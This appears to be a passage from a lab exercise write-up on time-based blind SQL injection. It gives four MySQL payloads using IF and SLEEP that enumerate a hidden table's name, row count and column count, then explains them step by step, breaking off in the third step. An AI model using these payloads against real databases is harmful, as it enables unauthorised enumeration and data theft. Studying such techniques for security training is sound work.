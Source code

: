 

    Column: cyberHour
    Column: cyberId


## part5

### SQL Injection Explanation for Finding Hidden Database Table Using Blind SQL

#### Context
The exercise involves using blind SQL injection to discover hidden tables in a database and extract information such as the table name, the number of rows, and the number of columns.

#### Injection Payloads
The SQL injection payloads used are:
1. **To find the length of the table name:**
   ```sql
   ' AND IF((SELECT LENGTH(table_name) FROM INFORMATION_SCHEMA.TABLES WHERE table_schema = 'secure' LIMIT 1) = {i}, SLEEP(5), 0) -- 
   ```
2. **To find the characters of the table name:**
   ```sql
   ' AND IF((SELECT SUBSTRING(table_name,{i},1) FROM INFORMATION_SCHEMA.TABLES WHERE table_schema = 'secure' LIMIT 1) = '{char}', SLEEP(5), 0) -- 
   ```
3. **To find the number of rows in the table:**
   ```sql
   ' AND IF((SELECT COUNT(*) FROM `secure`.`{table_name}`) = {i}, SLEEP(5), 0) -- 
   ```
4. **To find the number of columns in the table:**
   ```sql
   ' AND IF((SELECT COUNT(*) FROM INFORMATION_SCHEMA.COLUMNS WHERE table_schema = 'secure' AND table_name = '{table_name}') = {i}, SLEEP(5), 0) -- 
   ```

#### Step-by-Step Explanation

1. **Understanding the Vulnerable Query:**
   The application likely executes a query to fetch user information based on input. The query structure might look like this:
   ```sql
   SELECT * FROM users WHERE username = 'input_user';
   ```
   Here, `input_user` is the value submitted through the URL parameter.

2. **Crafting the Payloads:**
   The payloads are designed to exploit time-based blind SQL injection, where the response time is manipulated based on the injected condition. The condition checks if a specific value matches the expected result, and if true, a delay (SLEEP) is introduced.

3. **Finding the Length of the Table Name:**
   The first step is to determine the length of the table name in the `secure` database. The payload ` ' AND IF((SELECT LENGTH(table_name) FROM INFORMATION_SCHEMA.TABLES WHERE table_schema = 'secure' LIMIT 1) = {i}, SLEEP(5), 0) -- ` is used:
   - `LENGTH(table_name)` retrieves the length of the table name.
   - The condition checks if the length equals `i`.
   - If true, the query sleeps for 5 seconds, indicating a match.
